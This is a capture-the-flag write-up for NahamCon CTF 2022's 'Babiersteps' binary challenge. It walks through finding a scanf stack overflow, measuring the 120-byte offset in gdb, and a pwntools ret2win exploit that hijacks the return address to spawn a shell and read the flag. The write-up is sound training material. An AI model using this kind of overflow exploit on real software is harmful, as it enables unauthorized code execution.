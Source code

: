 # Babiersteps - NahamCon CTF 2022 - [https://www.nahamcon.com/](https://www.nahamcon.com/)
Binary Exploitation, 50 Points

## Description

![Info.JPG](images/Info.JPG)
 
## Babiersteps Solution

Let's run ```checksec``` on the attached file [babiersteps](./babiersteps):
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ checksec babiersteps
[*] '/nahamcon/binary_exploitation/babiersteps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see we have [NX enabled](https://ctf101.org/binary-exploitation/no-execute/), [No Stack Canary](https://ctf101.org/binary-exploitation/stack-canaries/).

Let's run the binary:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ ./babiersteps./babiersteps 
Everyone has heard of gets, but have you heard of scanf?
uuuu
```

By decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra) we can see the following ```main``` function:
```c
undefined8 main(void)
{
  undefined local_78 [112];
  
  puts("Everyone has heard of gets, but have you heard of scanf?");
  __isoc99_scanf(&DAT_00402049,local_78);
  return 0;
}
```

And we can see also the following ```win``` function:
```c
void win(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

We can see on the ```main``` function classic buffer overflow.

Let's find the offset between the buffer ```local_78``` to ```rip``` using ```gdb```:
```asm
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ gdb babiersteps
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004011ea <+0>:	endbr64 
   0x00000000004011ee <+4>:	push   rbp
   0x00000000004011ef <+5>:	mov    rbp,rsp
   0x00000000004011f2 <+8>:	sub    rsp,0x70
   0x00000000004011f6 <+12>:	lea    rdi,[rip+0xe13]        # 0x402010
   0x00000000004011fd <+19>:	call   0x401070 <puts@plt>
   0x0000000000401202 <+24>:	lea    rax,[rbp-0x70]
   0x0000000000401206 <+28>:	mov    rsi,rax
   0x0000000000401209 <+31>:	lea    rdi,[rip+0xe39]        # 0x402049
   0x0000000000401210 <+38>:	mov    eax,0x0
   0x0000000000401215 <+43>:	call   0x4010a0 <__isoc99_scanf@plt>
   0x000000000040121a <+48>:	mov    eax,0x0
   0x000000000040121f <+53>:	leave  
   0x0000000000401220 <+54>:	ret    
End of assembler dump.
gef➤  b *main+54
Breakpoint 1 at 0x401220
```

Run it and search for the pattern:
```asm
gef➤  r
Starting program: /nahamcon/binary_exploitation/babiersteps/babiersteps 
Everyone has heard of gets, but have you heard of scanf?
AAAAAAAA

Breakpoint 1, 0x0000000000401220 in main ()

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde80 - 0x7fffffffde88  →   "AAAAAAAA" 
gef➤  info frame
Stack level 0, frame at 0x7fffffffdef8:
 rip = 0x401220 in main; saved rip = 0x7ffff7e0ad0a
 Arglist at 0x7fffffffdef0, args: 
 Locals at 0x7fffffffdef0, Previous frame's sp is 0x7fffffffdf00
 Saved registers:
  rip at 0x7fffffffdef8
gef➤  
```

The buffer locates on ```0x7fffffffde80``` and ```rip``` on ```0x7fffffffdef8``` the offset is ```120``` bytes:
```console
... | 120 bytes including the buffer | rip | ...
````

The address of ```win```:
```asm
gef➤  print win
$1 = {<text variable, no debug info>} 0x4011c9 <win>
```

So now we can solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html) with the following [code](./exp_babiersteps.py):
```python
from pwn import *

elf = ELF('./babiersteps')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31879)
else:
    p = process(elf.path)

# payload buffer
payload = b"\x90"*120
payload += p64(0x4011c9)

p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ python3 exp_babiersteps.py REMOTE
[*] '/nahamcon/binary_exploitation/babiersteps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 30479: Done
[*] Switching to interactive mode

$ hostname
babiersteps-95d8954facfdd3a1-56784c8d5c-qf5xp
$ ls
babiersteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{4dc0a785da36bfcf0e597917b9144fd6}
```

And we get the flag ```flag{4dc0a785da36bfcf0e597917b9144fd6}```.